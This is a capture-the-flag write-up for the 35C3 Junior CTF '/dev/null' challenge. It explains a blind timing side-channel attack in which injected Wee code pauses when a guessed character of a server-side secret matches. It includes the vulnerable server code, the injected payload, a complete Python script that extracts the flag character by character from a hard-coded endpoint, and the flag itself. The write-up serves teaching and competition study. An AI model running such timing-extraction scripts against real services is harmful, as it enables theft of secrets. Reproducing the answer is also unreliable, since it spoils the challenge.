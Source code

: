 # 35C3 Junior CTF – /dev/null

* **Category:** Misc
* **Points:** variable

## Challenge

> We're not the first but definitely the latest to offer dev-null-as-a-service. Pretty sure we're also the first to offer Wee-piped-to-dev-null-as-a-service[WPtDNaaS]. (We don't pipe anything, but the users don't care). This service is more useful than most blockchains (old joke, we know). Anyway this novel endpoint takes input at /wee/dev/null and returns nothing.
> 
> http://35.207.189.79/
> 
> Difficulty Estimate: Hard
>
> ===============================================
>
> Good coders should learn one new language every year.
>
> InfoSec folks are even used to learn one new language for every new problem they face (YMMV).
>
> If you have not picked up a new challenge in 2018, you're in for a treat.
>
> We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.
>
> Some cool Projects can be created in Wee, like: this, this and that.
>
> Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.
>
> Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).
>
> We even added new features to this better server, like server-side Wee evaluation!
>
> To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

## Solution

Analyzing `http://35.207.189.79/pyserver/server.py` two interesting methods can be discovered.

```Python
def runwee(wee: string) -> string:
    print("{}: running {}".format(request.remote_addr, wee))
    result = check_output(
        ["ts-node", '--cacheDirectory', os.path.join(WEE_PATH, "__cache__"),
         os.path.join(WEE_PATH, WEETERPRETER), wee], shell=False, stderr=STDOUT, timeout=WEE_TIMEOUT,
        cwd=WEE_PATH).decode("utf-8")
    print("{}: result: {}".format(request.remote_addr, result))
    return result

@app.route("/wee/dev/null", methods=["POST"])
def dev_null():
    json = request.get_json(force=True)
    wee = json["code"]
    wee = """
    var DEV_NULL: string = '{}'
    {}
    """.format(DEV_NULL, wee)
    _ = runwee(wee)
    return "GONE"
```

`DEV_NULL` variable contains the flag and is manipulated accessing to `/wee/dev/null` endpoint via POST operation. The variable is put into a *Wee* script, together with an input provided by the user via JSON, that is executed server side.

Unfortunately the execution is completely "blind", because no output is returned to the user, only a constant value (i.e. `GONE`).

Furthermore, the `runwee` method, which executes the passed *Wee* script, contains a timeout (i.e. 5 secs, that you will discover after few analysis).

You have to find a creative way to read that variable. The only way to exfiltrate data is via a *side-channel attack based on timing*, using a check that allows to "guess" the complete string one char at a time, i.e. something like *blind SQL injection* attacks.

Analyzing the documentation you could discover two useful methods:
* `charAt`;
* `pause`.

These could be used to craft a *Wee* script like the following.

```
if charAt(DEV_NULL, position) == '?' then
   pause(4500)
end
```

Where `position` is the char you are trying to guess and `?` is the char candidate. If the char candidate is correct, the script will pause for 4.5 secs.

A Python script can be used to automatize the operation.

```Python
import requests
import time
import json

url = "http://35.207.189.79/wee/dev/null"
data_structure = """{{ "code": {} }}"""
data_content = """if charAt(DEV_NULL, {}) == '{}' then
   pause(4500)
end"""
chars = list("_1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM")
response_time_target = 4.0

try:
   
   f = 0
   flag = ""
   fast_answers = 0
   while fast_answers < len(chars):

      best_char = " "
      best_response_time = 0.0
      fast_answers = 0

      for c in range(len(chars)):
         print "[*] Flag char number '{}', char '{}'.".format(f, chars[c])
         data_content_to_send = json.dumps(data_content.format(f, chars[c]))
         data_to_send = data_structure.format(data_content_to_send)
         print "[*] Payload: '{}'.".format(data_to_send)
         start = time.time()
         response = requests.post(url, data=data_to_send)
         end = time.time()
         print "[*] Response: '{}'.".format(response.text)
      
         response_time = end - start
         print "[*] Response time is '{}'.".format(response_time)
         if response_time >= response_time_target and response_time > best_response_time:
            best_response_time = response_time
            best_char = chars[c]
            print "[*] Found char '{}'.".format(best_char)
            break
         elif response_time < response_time_target:
            fast_answers+=1

      f+=1
      flag += str(best_char)
      print "[*] >>> Flag: '{}'. <<<".format(flag)

except KeyboardInterrupt:
   print "[-] Interrupted!"
```

The flag is the following.

```
35C3_TH3_SUN_IS_TH3_SAM3_YOU_RE_OLDER
```